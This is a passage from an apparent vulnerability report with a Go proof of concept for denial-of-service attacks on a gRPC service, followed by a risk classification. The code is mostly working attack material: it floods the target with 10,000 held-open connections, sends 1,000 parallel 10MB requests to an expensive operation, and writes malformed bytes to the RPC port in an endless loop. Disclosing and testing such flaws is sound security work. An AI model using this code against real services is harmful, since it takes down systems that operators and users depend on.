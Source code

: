 ## Proof of Concept (PoC)
```go
// DoS through connection flooding
func connectionFlood(target string) {
    for i := 0; i < 10000; i++ {
        go func() {
            conn, _ := grpc.Dial(target, grpc.WithInsecure())
            defer conn.Close()
            // Keep connection open
            time.Sleep(1 * time.Hour)
        }()
    }
}

// DoS through expensive operations
func cpuExhaustion(target string) {
    conn, _ := grpc.Dial(target, grpc.WithInsecure())
    client := pb.NewServiceClient(conn)
    
    // Parallel expensive requests
    var wg sync.WaitGroup
    for i := 0; i < 1000; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            ctx := context.Background()
            // Request triggering expensive computation
            client.ExpensiveOperation(ctx, &pb.Request{
                Data: strings.Repeat("A", 10*1024*1024), // 10MB
            })
        }()
    }
    wg.Wait()
}

// DoS through malformed requests
func malformedRequests(target string) {
    // Send raw malformed data to RPC port
    conn, _ := net.Dial("tcp", target)
    for {
        // Invalid protocol buffer data
        conn.Write([]byte{0xFF, 0xFF, 0xFF, 0xFF})
    }
}
```

## Risk Classification
- **Availability Impact**: High (service unavailability)
- **Integrity Impact**: Low
- **Confidentiality Impact**: Low
- **Exploitability**: High (easy to execute)
- **Business Impact**: High (service disruption)
